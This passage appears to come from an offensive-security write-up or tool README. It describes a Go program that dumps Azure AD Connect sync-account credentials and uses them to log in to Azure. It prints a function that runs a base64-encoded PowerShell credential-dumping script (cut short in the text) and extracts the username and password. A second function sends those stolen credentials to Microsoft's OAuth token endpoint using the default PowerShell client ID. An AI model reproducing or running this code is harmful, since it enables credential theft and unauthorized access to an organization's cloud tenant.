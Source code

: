 The Details of how the powershell script is able to dump credentials in the first place can be found above (seriously check it out)
I encoded the above powershell script in base64 and run it within the golang code just for ease of use.
The function that performs the dump is below

```go
func DumpCreds()map[string]string {
    posh := New()
    //fmt.Println("With encoding change:")
     stdout, _, err := posh.Execute(`//5XAHIAaQB0AGUALQBIAG8Ac...`)
     s := strings.Split(stdout,"\n")

    fmt.Println(stdout)

    if err != nil {
            fmt.Println(err)
    }

    User := strings.Split(s[10],":")
    Pass := strings.Split(s[11],":")
    UserName := strings.TrimSpace(User[1])
    PassWord := strings.TrimSpace(Pass[1])
    AzureCredsMap := make(map[string]string)
    AzureCredsMap["AzureUserName"] = UserName
    AzureCredsMap["AzurePassWord"] = PassWord
    return AzureCredsMap
```

## Authenticate with dumped creds
So at this point you have the sync account credentials.

![asmi popup](/credsOutput.png)

Now we can authenticate to the graph.windows.net api using go

```go
func auth(resource_url string,credsMap map[string]string,tenantId string) Token_t{
    fmt.Println("\n[*] Attempting to Authenticate to Azure...")
    pass := credsMap["AzurePassWord"]
    user := credsMap["AzureUserName"]
    //os.Exit(2)
    formData := url.Values{
    "grant_type":{"password"},
    "resource":{resource_url},
    "client_id":{"a0c73c16-a7e3-4564-9a95-2bdf47383716"}, //needed as client id its default powershell                      
    "username":{user},
    "password":{pass},
    }
    //fmt.Println(tenantId)
    url := fmt.Sprintf("https://login.microsoftonline.com/%s/oauth2/token",tenantId)
    resp, err := http.PostForm(url,formData) // contains tenant id
    if err != nil {
        panic(err)
    }
    defer resp.Body.Close()
    var result Token_t
    json.NewDecoder(resp.Body).Decode(&result)

    if result.AccessToken == ""{
        fmt.Println("\nYou couldnt get a token, invalid credentials perhaps???\n")
        os.Exit(2)
    }
    fmt.Println("\n[*] Successfully Authenticated To Azure")
```